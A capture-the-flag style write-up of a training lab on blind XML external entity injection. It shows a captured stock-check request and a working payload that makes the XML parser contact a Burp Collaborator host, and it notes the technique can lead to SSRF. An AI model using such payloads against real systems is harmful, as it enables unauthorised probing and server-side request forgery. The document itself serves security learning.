

---
tags:
  - xxe
  - OAST
---
# Blind XXE with out-of-band interaction

## Instructions

This lab has a "Check stock" feature that parses XML input but does not display the result.

You can detect the blind XXE vulnerability by triggering out-of-band interactions with an external domain.

To solve the lab, use an external entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

## Solution

Note that the check stock request includes XML.

```text title="Check stock request"
POST /product/stock HTTP/2
Host: 0a5300fa04b61e4380a7d0fe00ee0012.web-security-academy.net
Cookie: session=Dqty6ZZ4zeULrDRtlrmyQsgrGYoOMr51
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:145.0) Gecko/20100101 Firefox/145.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a5300fa04b61e4380a7d0fe00ee0012.web-security-academy.net/product?productId=1
Content-Type: application/xml
Content-Length: 107
Origin: https://0a5300fa04b61e4380a7d0fe00ee0012.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

Since all we want to do is trigger a DNS lookup, we can use the following payload in the request.

```text title="Working payload"
<!DOCTYPE root [<!ENTITY test SYSTEM 'http://UNIQUE_ID_FOR_BURP_COLLABORATOR.burpcollaborator.net'>]>
<root>&test;</root>
```

If we include that in the request and place the `&test;` in the storeId parameter, then we get a DNS lookup to our collaborator instance. 




That solves this lab.

## Lesson learned

If you're not getting anything back from your XXE payloads, see if you can trigger an OOB interaction. This may indicate potential to leverage XXE for an SSRF attack.